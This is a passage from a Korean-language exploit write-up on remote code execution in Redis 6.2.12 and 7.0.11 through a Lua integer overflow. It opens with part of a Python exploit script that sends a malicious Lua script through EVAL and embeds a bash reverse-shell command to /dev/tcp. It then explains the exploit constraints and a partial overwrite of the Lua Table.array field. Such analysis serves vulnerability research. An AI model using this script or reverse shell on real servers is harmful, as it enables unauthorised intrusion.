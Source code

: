 ```python

    print(f"[*] Starting server on {lhost}:{lport}")
    shell_server = ShellServer(lport)
    shell_server = threading.Thread(target=ShellServer().run)
    shell_server.start()

    print(f"[*] Sending evil lua script to {redis_host}:{redis_port}")
    redis = Redis(redis_host, redis_port)

    cmd = f"bash -c 'bash -i >& /dev/tcp/{lhost}/{lport} 0>&1'".encode()
    evil_lua_script = open(lua_script, "rb").read().replace(b"[CMD]", cmd)
    r = redis.EVAL(evil_lua_script)

    if debug:
        if r: print(repr(r))

if __name__ == "__main__":
    main()
```

위 스크립트는 명령줄 인자로 받은 공격할 Redis Server의 IP 주소와 port를 사용하여 서버에 접속하고 RCE로 실행한 리버스쉘을 위해 listen할 host와 port를 지정합니다. 마지막 인자로는 실행할 Lua 스크립트를 전달하여 접속한 Redis Server에서 `EVAL` 커맨드로 실행합니다.

## Remote Code Execution : Redis Version 6.2.12 & 7.0.11

그럼 먼저 Redis 6.2.12와 7.0.11에서의 익스플로잇을 알아봅시다!

### 제약사항

RCE 익스플로잇을 위해 고려해야 할 사항은 아래와 같습니다.

1. 과도한 Heap Corruption
2. Unicode escape된 데이터와 양 끝의 제어 불가능한 double quote
3. ASLR & PIE

첫 번째로 Integer Overflow의 결과 대량의 데이터가 Overwrite되기에 RCE를 달성하기 전에 크래시가 발생할 위험이 있다는 것입니다. 또한 쓰이는 데이터는 unicode escape되기 때문에 완전히 제어하는 것이 불가능하고 데이터의 마지막은 항상 `"`(0x22)로 끝나게 됩니다.

마지막으로 redis-server 바이너리는 PIE가 활성화되어 있고 프로세스가 동작하는 시스템에서 ASLR이 활성화되어 있는 경우 address leak이 요구됩니다. 

익스플로잇은 [이전 글](https://hackyboiz.github.io/2024/08/04/pwndorei/1day1document_CVE-2023-21608/)에서 javascript를 사용한 것처럼 Lua의 오브젝트를 변조해서 임의 주소 읽기/쓰기 등의 primitive를 생성하고 이를 활용해서 최종적으로는 Fake Closure object를 만들어서 임의 코드를 실행합니다.

### 1. Partial Overwrite `Table.array`

Overflow될 데이터를 온전히 제어하지 못하기에 Partial Overwrite로 Lua의 `Table` 오브젝트의 `array` 필드를 조작합니다.

Lua의 모든 오브젝트는 아래의 `TValue` 구조체에 의해 관리되고 Lua에서는 이를 통해 변수를 다루게 됩니다.

```c
typedef union {
  GCObject *gc;
  void *p;
  lua_Number n;
  int b;
} Value;

#define TValuefields	Value value; int tt

typedef struct lua_TValue {
  TValuefields;
} TValue;
```
